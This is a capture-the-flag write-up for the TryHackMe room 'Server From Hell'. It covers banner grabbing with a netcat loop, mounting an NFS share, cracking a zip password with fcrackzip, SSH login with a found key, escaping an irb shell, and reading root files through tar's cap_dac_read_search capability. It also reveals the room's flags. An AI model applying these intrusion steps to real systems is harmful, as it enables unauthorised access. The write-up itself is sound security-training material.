 # TryHackMe-Server From Hell

> Abdullah Rizwan | 05:54 PM | 3rd November ,2020

## NMAP

```
Not shown: 94 closed ports
PORT      STATE SERVICE               VERSION
1/tcp     open  tcpmux?
| fingerprint-strings: 
|   NULL: 
|_    550 12345 0000000000000000000000000000000000000000000000000000000
3/tcp     open  compressnet?
| fingerprint-strings: 
|   NULL: 
|_    550 12345 0000000000000000000000000000000000000000000000000000000
4/tcp     open  unknown
| fingerprint-strings: 
|   NULL: 
|_    550 12345 0000000000000000000000000000000000000000000000000000000
6/tcp     open  unknown
........

There were many ports open in this box so can't really show how many ports were there
```

Looking at the description of the room it says about starting from `1337` ,so

## PORT 1337

`nc IP:1337`

```
Welcome traveller, to the beginning of your journey
To begin, find the trollface
Legend says he's hiding in the first 100 ports
Try printing the banners from the ports

```
This is the message we get when we connect to port 1337

I made a simple script to go over 100 ports and connect to it to grab banner


```
i=1
while [ $i -ne 100 ]
do 
	nc 10.10.173.96 $i
	i=$(( $i + 1 ))
done

```
<img src="https://imgur.com/X2RBWne.png"/>


## PORT 12345

```
nc 10.10.173.96 12345
NFS shares are cool, especially when they are misconfigured
It's on the standard port, no need for another scan
```

## PORT 2049

The default port of `nfs` share is 2049 so lets see if there are any shares that we can mount on our local machine

<img src="https://imgur.com/ZsfnVwC.png"/>

Now let's mount that share

<img src="https://imgur.com/SDYKjPV.png"/>

We only find a `backup.zip`

<img src="https://imgur.com/VVLeFOp.png"/>

But it asks for a password

<img src="https://imgur.com/PdxqCba.png"/>

### Fcrackzip

Now lets use this to bruteforce archive's password

```
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup.zip 


PASSWORD FOUND!!!!: pw == zxcvbnm
```
<img src="https://imgur.com/mqLJMVD.png"/>

But I can't get to extract the files becasue `read-only file system` , so I used GUI to view what was in these files

<img src="https://imgur.com/0aJE2Xt.png"/>

And I was able to grab the flag,hint and ssh private key.


Now `hint.txt` says

```
2500-4500
```

I tried to ssh into the box using `hades` private but ssh port was not on 22

<img src="https://imgur.com/PfSORcz.png"/>

From the results of the scan I searched for ssh with openssh client

<img src="https://imgur.com/mgG3s7s.png"/>

And was logged in :D

<img src="https://imgur.com/2j3o2wy.png"/>

```
 Welcome to hell. We hope you enjoy your stay!
 irb(main):001:0> puts 'hello'
hello
=> nil
irb(main):002:0> 

```

Now this `irb` is interactive ruby shell just like we get in python so in order to get a `/bin/bash` shell run 

```
exec '/bin/bash'
```

<img src="https://imgur.com/TagPPFG.png"/>

## Privilege Escalation

Now the room gives us a hint about `getcap` this command tells that which file or binary has capability to access almost anything on the system so run 

`getcap -r 2>/dev/null` (2>/dev/null ,here 2 just redirects Standard output error to null )


```
hades@hell:~$ getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/bin/tar = cap_dac_read_search+ep
```
Visiting `GTFOBINS`

https://gtfobins.github.io/gtfobins/tar/
```
hades@hell:~$ tar xf /root/root.txt -I '/bin/sh -c "cat 1>&2"'
thm{w0w_n1c3_3sc4l4t10n}
hades@hell:~$ 

```



